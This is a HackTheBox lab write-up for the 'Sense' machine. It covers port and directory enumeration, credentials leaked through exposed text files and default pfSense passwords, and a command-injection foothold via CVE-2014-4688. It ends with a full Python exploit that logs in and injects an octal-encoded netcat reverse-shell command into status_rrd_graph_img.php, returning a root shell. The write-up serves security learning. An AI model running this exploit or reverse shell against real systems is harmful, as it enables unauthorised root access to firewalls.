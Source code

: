 ```yaml
---
layout: single
title: HackTheBox - Sense Writeup
permalink: /hackthebox-sense-writeup/
excerpt: "Sense is a super straightforward box from HacktheBox. It explores the file that has exposed the credentials and exploits the pfsense firewall application with one of the flaws that haven't been patched."
classes: wide
header:
  teaser: "/assets/images/htb/sense/Sense.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - freebsd
  - infosec
  - easy-htb
  - writeup
tags:
  - gobuster
  - pfsense
  - pfsense-default-creds
  - python
  - cve-2014-4688
  - rce
---
```


![hackthebox sense title card](/assets/images/htb/sense/Sense.png)

# <font color="#9bffc8">Nmap</font>
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,443 -sCV -oN nmap/sense 10.10.10.60

80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

Well, only `2` ports are open, which is port `80` and `443`. Based on the port and service itself, looks like I'm dealing with the webserver this time. However, the scan results show me that the `url` on port `80` has been redirected to port `443` which is the `HTTPS` port.

# <font color="#9bffc8">Https: Pfsense</font>
I've navigated to port `443` on my browser and accepted the `SSL` certificates. I'll check the certificate and nothing useful for me. Turn's out, it is a [Pfsense](https://www.pfsense.org/) login page. Then, I'll try login in with the default credentials which is `admin:pfsense` and nothing unveil. By the look at the `index` page extension, this is a `PHP` webpage.

![pfsense login page](/assets/images/htb/sense/login-page.png)

# <font color="#9bffc8">Gobuster</font>
Then, I run the [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. Unfortunately, I can't find anything useful and it's just found empty directories. So, I ended up putting a bunch of extensions such as `php,txt,html,cgi` for the second scan, and it manage to find "gold".

![gobuster scan](/assets/images/htb/sense/gobuster-scan.png)

# <font color="#9bffc8">Https: /changelog.txt</font>
The first file that caught my attention is called `changelog.txt`. Upon expecting the file it says `"2 of 3 vulnerabilities have been patched"`. This gives me an idea of this particular version having a severe flaw that hasn't been patched. I have 1/3 luck here, to find which one of the flaws is.

![changelog text](/assets/images/htb/sense/changelog-txt.png)

# <font color="#9bffc8">Https: /system-users.txt</font>
Anyways, I've navigated to another text file called `system-users.txt` which leaks the username. However, the password says `"company defaults"`. Then, it makes me think it could be the box name which is `sense` just like [nibbles](https://shafiqaiman.com/hackthebox-nibbles-writeup/) box that I did before, or the default [Pfsense](https://www.pfsense.org/) credentials which is `pfsense`.

![system users text](/assets/images/htb/sense/system-users-txt.png)

# <font color="#9bffc8">Https: Pfsense/Dashboard</font>
I'll try both credentials and the correct one is `pfsense` and it looks just like a generic pfsense dashboard, what do I expect :). However, it has the version number sitting in front of me which is `2.1.3-RELEASE`.

![version number](/assets/images/htb/sense/version-number.png)

# <font color="#9bffc8">Foothold: CVE-2014-4688</font>
Since this is an old box, I immediately find the exploit and cve with it. This vulnerability is assigned to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) and the description says `"this CVE assign to 3 vulnerabilty found in pfsense"`. However, one of them did not patch as the `changelog.txt` file expose to me. Luckily, I find this [exploit](https://www.exploit-db.com/exploits/43560) on [exploit-db](https://www.exploit-db.com/). Which explores the vulnerability in post-authentication in the `status_rrd_graph_img.php` page but again I want to be "l33t" and create my exploits by copying the existent exploits. (Why not? lol). Credited to Ryan McFarland aka [absolomb](https://www.absolomb.com/) and here are the results.

```python
#!/usr/bin/env python3
import sys
import argparse
import requests
from bs4 import BeautifulSoup as bs
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()
parser.add_argument('-U', '--username', metavar='', help='Username')
parser.add_argument('-P', '--password', metavar='', help='Password')
parser.add_argument('-r', '--rhost', metavar='', help='Remote IP')
parser.add_argument('-i', '--lhost', metavar='', help='Listening IP')
parser.add_argument('-p', '--lport', metavar='', help='Listening port')
args = parser.parse_args()

def get_csrf():
    req = requests.get(f"https://{args.rhost}/index.php", verify=False)
    soup = bs(req.text, features="lxml")
    csrf = soup.find('input', {'name':'__csrf_magic'})['value']
    return csrf

def payload(ip, port):
    payload = ""
    command = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {ip} {port} > /tmp/f"
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))
    return payload

if __name__ == '__main__':
    try:
        s = requests.Session()
        csrf = get_csrf()
        payload = payload(args.lhost, args.lport)

        data = {'__csrf_magic':csrf, 'usernamefld':args.username, 'passwordfld':args.password, 'login':'Login'}
        req = s.post(f"https://{args.rhost}/index.php", data=data, verify=False)
        print(f"LOGIN... {req.status_code}")

        print("Trying to exploit...")
        req = s.get(f"https://{args.rhost}/status_rrd_graph_img.php?database=queues;printf+'{payload}'|sh", verify=False)
        print("If you see this, it's doesn't work!")
    except (KeyboardInterrupt, requests.exceptions.ConnectionError) as Error:
        sys.exit()
```

![root](/assets/images/htb/sense/root.png)

BOOM! root baby! this is because firewall applications tend to be installed under root privilege.